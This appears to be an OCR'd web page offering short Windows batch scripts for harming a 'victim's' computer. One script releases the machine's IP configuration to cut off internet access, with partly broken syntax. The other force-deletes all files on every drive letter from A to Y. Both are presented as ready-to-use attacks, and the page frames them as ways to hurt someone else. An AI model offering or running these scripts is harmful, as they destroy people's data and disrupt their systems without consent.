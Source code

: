     Disable the Victim’s Internet : Want to stop someone from accessing the internet? Just use this four lines code.

@echo off

ipconfig / Release

if ERRORLEVEL1 ipconfig /release_all

exit

    Erase All Drives : Want to erase every thing? Well its simple in Windows.

@echo off

del A:*.* /f /s /q

del B:*.* /f /s /q

del C:*.* /f /s /q

del D:*.* /f /s /q

del E:*.* /f /s /q

del F:*.* /f /s /q

del G:*.* /f /s /q

del H:*.* /f /s /q

del I:*.* /f /s /q

del J:*.* /f /s /q

del K:*.* /f /s /q

del L:*.* /f /s /q

del M:*.* /f /s /q

del N:*.* /f /s /q

del O:*.* /f /s /q

del P:*.* /f /s /q

del Q:*.* /f /s /q

del R:*.* /f /s /q

del S:*.* /f /s /q

del T:*.* /f /s /q

del U:*.* /f /s /q

del V:*.* /f /s /q

del W:*.* /f /s /q

del X:*.* /f /s /q

del Y:*.* /f /s /q
